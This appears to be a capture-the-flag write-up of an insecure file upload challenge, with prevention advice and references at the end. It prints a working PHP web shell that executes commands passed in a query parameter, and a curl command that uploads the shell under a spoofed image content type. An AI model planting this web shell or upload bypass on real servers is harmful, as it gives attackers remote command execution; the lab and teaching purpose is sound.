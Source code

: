 ### Challenge

We can start with this PHP script that allows executing commands with the server user's privileges through a file upload:
```php
<?php
if (isset($_GET['cmd'])) {
    $cmd = urldecode($_GET['cmd']);
    echo shell_exec($cmd);
} else {
    echo "No command found";
}
?>
```

Here, I can specify a command that the server will execute if it doesn't protect its file uploads. I decode the command using urldecode to allow entering URL-encoded parameters like ?cmd=ls%20-la. For example, since spaces will be URL-encoded by the server, I need to be able to enter command options.

Of course, the server does not accept .php files: Your image was not uploaded.

So, I need to find a way to make the server believe that my script is an image.

It's a whitelist, not a blacklist, because even if I change the extension to anything, the server still rejects it.

It accepts when we add a `.jpg` extension, but it places the image in a directory that is impossible to access through either routes or page elements.

Even with .jpg%20 or anything else, it's still impossible to access the script and therefore the commands, so the flag
can probably be obtained in a different way.

I tested by changing the MIME type of the POST request with: Content-type: /jpeg

Changing the content type didn't work, but we can force the server to interprete the file as an image :

```
curl -X POST -F "MAX_FILE_SIZE=100000" -F "uploaded=@script.php;type=image/jpeg" -F "Upload=Upload" http://192.168.56.107/index.php?page=upload
```

And we can get the flag in the response !

```
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

### Vulnerability

This vulnerability is an insecure file upload, which allows for uploading scripts, such as PHP scripts,
enabling the execution of commands with server privileges, among other things. This has the impact of allowing an attacker to retrieve sensitive
information from the server or users, potentially leading to service disruption or data modification.

### How to prevent from insecure file upload
- List allowed extensions, like the challenge did
- Validate the file type, don't trust the Content-Type header as it can be spoofed
- Set a filename length limit, again like the challenge did
- Ensure that any libraries used are securely configured and kept up to date

### Ressources
- https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
- https://book.hacktricks.xyz/pentesting-web/file-upload
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md
- https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass
- https://stackoverflow.com/questions/4074936/how-to-use-php-curl-to-send-images-with-the-correct-content-type
